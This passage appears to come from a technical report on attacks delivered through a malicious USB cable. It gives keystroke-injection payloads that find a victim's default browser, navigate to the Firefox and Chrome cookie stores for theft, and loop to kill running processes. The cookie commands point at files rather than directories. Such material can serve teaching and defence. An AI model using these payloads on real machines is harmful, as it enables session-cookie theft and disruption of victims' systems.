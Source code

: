 A client's default browser can be extracted via PowerShell using only one line:
\begin{lstlisting}[caption={Exceprt: Find a target's default browser}, captionpos=b]
STRINGLN Get-ItemProperty -Path 'HKCU: Software\Microsoft\Windows\Shell\Associations\UrlAssociations\http\UserChoice' | Select-Object -ExpandProperty ProgId
\end{lstlisting}

After that information is sent back to the attacker, they can connect to the cable and remotely trigger the appropriate attack. For example, if the victim's default browser is Firefox, they could start a terminal, navigate to the default directory for Firefox cookies and extract that file.

\begin{lstlisting}[caption={move into the directory for Firefox cookies}, captionpos=b]
STRINGLN cd "C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\umva4gfp.default-release\cookies.sqlite"
\end{lstlisting}

The same approach can be used for Chrome, the difference is in the file path.

\begin{lstlisting}[caption={move into the directory for Chrome cookies}, captionpos=b]
STRINGLN cd "C:\Users\maaik\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies"
\end{lstlisting}

\subsubsection{Iteratively End Processes}

Finding and ending processes on Windows can be done with PowerShell and without admin privileges. The payload first defines the black- or whitelist, depending on the mode of the attack, then gets a list of all running processes. Next, it will either end all running processes that are also on the whitelist, or it will end every running process that is not on the blacklist. \\
This is an excerpt of the whitelist mode;

\begin{lstlisting}[caption={Exceprt: a PowerShell looop that ends a running process if it is contained in the whitelist}, captionpos=b]
STRINGLN $criticalProcessesWhitelist = @( "firefox" , "ROCCAT_Swarm_Monitor", "Notepad" )
DELAY 5
STRINGLN while("true"){
DELAY 5
STRINGLN $runningProcesses = Get-Process | Select-Object -ExpandProperty Name | select -Unique
DELAY 5
STRINGLN foreach ($process in $runningProcesses) {
DELAY 5
STRINGLN if ($criticalProcessesWhitelist -contains $process) {
DELAY 5
STRINGLN Stop-Process -Name $process
DELAY 5
STRINGLN Write-Output "process $process deleted"
DELAY 5
STRINGLN }
DELAY 5
STRINGLN }
DELAY 5
STRINGLN Start-Sleep -Seconds 1.5
DELAY 5
STRINGLN }
\end{lstlisting}

